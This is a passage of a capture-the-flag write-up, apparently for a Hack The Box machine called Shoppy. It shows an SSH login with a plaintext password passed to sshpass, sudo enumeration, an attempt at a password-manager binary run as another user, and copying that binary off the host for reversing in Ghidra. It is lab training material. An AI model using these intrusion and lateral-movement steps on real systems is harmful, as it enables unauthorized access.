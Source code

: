 ```bash
❯ sshpass -p 'Sh0ppyBest@pp!' ssh jaeger@shoppy.htb
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul  2 12:37:20 2025 from 10.10.14.X
jaeger@shoppy:~$ 
```

We can obtain the `user.txt`.

# Lateral Movement

```bash
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

We can execute `password-manager` as deploy.

```bash
sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: test
Access denied! This incident will be reported !
```

I’ll get this file to my attacking mach.

```bash
sshpass -p 'Sh0ppyBest@pp!' scp jaeger@shoppy.htb:/home/deploy/password-manager .
```

## Reversing

We open it with Ghidra.
